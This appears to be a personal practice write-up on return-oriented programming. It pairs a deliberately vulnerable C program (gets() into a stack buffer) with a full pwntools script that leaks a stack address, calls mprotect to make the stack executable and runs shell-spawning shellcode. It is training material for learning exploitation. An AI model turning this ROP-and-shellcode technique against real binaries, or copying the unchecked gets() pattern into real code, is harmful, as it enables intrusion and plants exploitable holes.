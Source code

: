<h1> &Learning </h1>

I made this C file inorder to practice ROP by calling `mprotect()` thereby making the stack executable and popping shell 🐚

Source:

```c
#include <stdio.h>

void greet_me(){
    char name[0x64];
    
    puts("Prove your worth hackerman!");
    gets(name);

}

int main(int argc, char *argv[]){
    greet_me();

    return 0;
}
```

Compiled using:
- gcc rop.c -no-pie -static

Download link: [link](https://cdn.discordapp.com/attachments/1176106609861201921/1198812318214148176/a.out?ex=65c043f9&is=65adcef9&hm=0ccc67d2a307bc3c388e4a4366fbaa8039260cc3b40101551c245e1a87da9c93&)

Here's the final exploit script:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *
from warnings import filterwarnings

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'a.out')
elf = exe
filterwarnings("ignore")
context.log_level = 'debug'

def start(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE: 
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''
init-pwndbg
break *greet_me+42
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

def init():
    global io
    global elf

    io = start()

def rop():
    offset = 120
    pop_rdi = 0x0000000000402020 # pop rdi; ret; 
    pop_rsi = 0x000000000040a6bd # pop rsi; ret; 
    pop_rdx_pop_rbx = 0x000000000045ec57 # pop rdx; pop rbx; ret; 
    call_rsp = 0x0000000000426c6a # call rsp; 


    """
    Stage One: Leak __libc_stack_end because it would hold the value of the end of the stack.
    Then allign it with page boundary 0x1000: https://man7.org/linux/man-pages/man2/mprotect.2.html
    Cause my end goal is to call mprotect() to make the stack executable
    """

    payload = flat({
        offset: [
            pop_rdi,
            elf.sym['__libc_stack_end'],
            elf.sym['_IO_puts'],
            elf.sym['main']
        ]
    })

    io.sendline(payload)
    io.recvuntil("hackerman!")
    addr = unpack(io.recv()[1:7].ljust(8, b"\x00"))
    info("__libc_stack_end: %#x", addr)

    _addr = addr &~ 0xfff # Bitwise AND operation with negation of 0x1000-1
    _len = 0x1000
    _prot = 0x7

    sc = asm(shellcraft.sh())

    info("Alligned stack address: %#x", _addr)

    payload = flat({
        offset: [
            pop_rdi,
            _addr, # page boundry alligned address
            pop_rsi,
            _len, # page size
            pop_rdx_pop_rbx,
            _prot, # protection
            0x0,
            elf.sym['mprotect'],
            call_rsp,
            sc
        ]
    })
    
    io.sendline(payload)

def main():
    
    init()
    rop()
    

if __name__ == '__main__':
    main()

    io.interactive()
```
